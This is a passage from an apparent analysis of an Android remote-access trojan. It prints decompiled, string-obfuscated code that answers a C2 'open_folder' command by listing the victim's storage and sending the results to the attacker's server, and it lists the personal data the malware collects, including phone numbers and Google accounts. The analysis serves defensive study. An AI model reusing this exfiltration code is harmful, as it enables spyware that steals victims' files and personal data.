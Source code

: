 
# Data exfiltration

The malware has the ability to exfiltrate the data and sending specific files to the C2 server from the vitim's device. 

```cs
if(s2.contains(this.a("ZTdjODM5YWFlMTMwNmUzOWFkYTkwOQ=="))) {  // open_folder
                    String s3 = new JSONObject(s2).getString(this.a("ZTdjODM5YWFlMTMwNmUzOWFkYTkwOQ=="));  // open_folder
                    if(s3.equals(this.a("ZjY5Nw=="))) {  // ~/
                        s3 = Environment.getExternalStorageDirectory().getAbsolutePath();
                    }

                    String[] arr_s = this.a.b(new File(s3));
                    try {
                        JSONObject jSONObject1 = new JSONObject();
                        jSONObject1.put(this.a("ZWJkNTM4"), this.a("ZTljYTJlYTVjNzA5NjczY2E1YTkwODZjNTgyNjc3Y2JiMGNh"));  // array_files_folder
                                                                                                                          // cmd
                        jSONObject1.put(this.a("ZWNkMTJl"), i.e(s3));  // dir
                        jSONObject1.put(this.a("ZWVkNzMwYTBkYjI0NzI="), i.e(arr_s[0]));  // folders
                        jSONObject1.put(this.a("ZWVkMTMwYTFjZA=="), i.e(arr_s[1]));  // files
                        String s4 = jSONObject1.toString().replace("\\n", "");
                        this.a.a(this.a("YzJlYjEzOGFlMTA1NDQxYjhk"), s4);  // JSON_SEND
                        this.a.i(this, this.b.H + this.a.h(s4));
                        goto label_5;
                    }
                    catch(JSONException unused_ex) {
                    }

                    this.a.a(this.c, this.a("Y2RjYTJlYWJjYzc2NmIyNmE2YTI1YjQxNWYzZDNiYzVhNmQ3OGNjNDk0YjY5NjM0Y2NlYWZlMTEzOTI2MDk0ODMxOGZkNzQ5OThkZQ=="));  // Error json rat jsonRequest open_folder
                    goto label_5;
                }

                if(!s2.contains(this.a("ZmRjODMwYWJkZjMyNjgzYmFkOTMxZDVhNTIyYw=="))) {  // uploadind_file
                    goto label_273;  // uploadind_file
                }

                jSONObject2 = new JSONObject(s2);
            
```


# Collected data

The malware will collect data from the victim's device such as battery percentage, language used on device, Accessibility Service status, phone number of the used line, Google accounts, and permissions obtained from the device. Then send it to the C2 server.
